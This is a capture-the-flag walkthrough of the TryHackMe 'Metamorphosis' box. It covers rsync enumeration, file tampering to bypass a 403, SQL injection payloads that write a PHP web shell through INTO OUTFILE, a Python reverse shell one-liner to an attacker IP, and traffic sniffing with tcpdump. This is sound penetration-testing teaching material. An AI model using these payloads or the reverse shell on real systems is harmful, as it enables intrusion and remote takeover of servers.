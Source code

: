 # Metamorphosis

![image](https://user-images.githubusercontent.com/5285547/126398152-edb99e4d-972a-4849-bd58-a604b7a9fa07.png)

Room link: https://tryhackme.com/room/metamorphosis

## Box name

```
sudo nano /etc/hosts
10.10.10.10 incognito.thm
```


## Nmap 

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
873/tcp open  rsync       (protocol version 31)
```

## Rsync Enum, Port 873

rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers by comparing the modification timesand sizes of files.[3] It is commonly found on Unix-like operating systems. The rsync algorithm is a type of delta encoding, and is used for minimizing network usage. Zlib may be used for additional data compression,[3] and SSH or stunnel can be used for security.

```
nc -vn 10.10.177.2 873
(UNKNOWN) [10.10.177.2] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
Conf            All Confs <--- The server starts enumerating
@RSYNCD: EXIT         <--- Sever closes the connection
```

or

```
nmap -sV --script "rsync-list-modules" -p 873 10.10.177.2 

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  Conf                All Confs
```

List share's

```
rsync -av --list-only rsync://10.10.55.140/Conf 

receiving incremental file list
drwxrwxrwx          4,096 2021/04/10 21:03:08 .
-rw-r--r--          4,620 2021/04/09 21:01:22 access.conf
-rw-r--r--          1,341 2021/04/09 20:56:12 bluezone.ini
-rw-r--r--          2,969 2021/04/09 21:02:24 debconf.conf
-rw-r--r--            332 2021/04/09 21:01:38 ldap.conf
-rw-r--r--         94,404 2021/04/09 21:21:57 lvm.conf
-rw-r--r--          9,005 2021/04/09 20:58:40 mysql.ini
-rw-r--r--         70,207 2021/04/09 20:56:56 php.ini
-rw-r--r--            320 2021/04/09 21:03:16 ports.conf
-rw-r--r--            589 2021/04/09 21:01:07 resolv.conf
-rw-r--r--             29 2021/04/09 21:02:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/09 21:00:59 smb.conf
-rw-rw-r--             72 2021/04/10 21:03:06 webapp.ini
```

Copy files

```
rsync -av  "rsync://10.10.55.140/Conf" . 

receiving incremental file list
./
access.conf
bluezone.ini
debconf.conf
ldap.conf
lvm.conf
mysql.ini
php.ini
ports.conf
resolv.conf
screen-cleanup.conf
smb.conf
webapp.ini

sent 255 bytes  received 194,360 bytes  389,230.00 bytes/sec
total size is 193,430  speedup is 0.99
```

Post files

```
rsync -av testfile.txt rsync://tom@10.10.55.140/Conf

sending incremental file list

sent 63 bytes  received 12 bytes  150.00 bytes/sec
total size is 7  speedup is 0.09
```

## User

Enumerating the webapp we find an endpoint with a 403 error at "http://IP/admin"

Source of the page: 
![image](https://user-images.githubusercontent.com/5285547/126498508-48557d98-3417-4269-a37e-0b1f5acec53b.png)

In webapp.ini we can see a user and password for "tom".  
Change the "prod" to "dev" to bypass the 403 error.

![image](https://user-images.githubusercontent.com/5285547/126405026-04e2a3da-4ff9-4b78-914a-91ed43b0979d.png)

Then reupload the files

```
rsync -av ./ rsync://tom@10.10.55.140/Conf 
```

Now we can access the admin portal

![image](https://user-images.githubusercontent.com/5285547/126405143-f5546a02-32e0-4712-9aaf-a65b7d5f052c.png)

Playing with the application and testing a few things out.  
I found it vunerable to Sqli


payloads
```
tom" and 2=2 and ""="
tom" union select 1,2,3-- -
tom" UNION SELECT 1,"<?php echo shell_exec($_GET['cmd']);?>",2 INTO OUTFILE "/var/www/html/shell.php" -- '
```

*Extra info
![image](https://user-images.githubusercontent.com/5285547/126409027-7d78bfa0-1586-4489-b4e3-811ac3dc081f.png)  
Credits: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-write-a-shell

### Webshell 

http://IP/admin/shell.php

![image](https://user-images.githubusercontent.com/5285547/126406971-d222658d-3caf-46d1-98aa-f81644412ab5.png)
![image](https://user-images.githubusercontent.com/5285547/126406986-7c4b4f69-2faa-48ea-a804-f8deb17ba55a.png)

Lets get a reverse shell back. 
Start a net cat listner

```
nc -lnvp 9999
```

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.8.153.120",9999));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```
![image](https://user-images.githubusercontent.com/5285547/126407229-c24fc6c5-30d3-43ff-b245-d8f76db7e69d.png)

Upgrade your terminal

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo;fg
reset
xterm

export TERM=xterm;export SHELL=bash
```

## Root

Running linpeas on the box didn't show much, apart from tcpdump was usable. 

![image](https://user-images.githubusercontent.com/5285547/126408059-0e4b8b9e-4342-49b4-8ca7-31bc86b2a069.png)

So I started to sniff the traffic to see what was going on

```
tcpdump -i eth0 -A portrange 21-873 | tee  tcpdump.txt
```

Then transfered it to my box after..making a coffee then I went and did a few things, then came back to  
go through the results. 

```
python3 -m http.server 8899
wget http://IP:8899/tcpdump.out
```

Using sublimetext I went over the results. 

*If you need or like sublimetext4 and don't have it
```
sudo apt-get update 
sudo apt-get install sublime-text -y
```





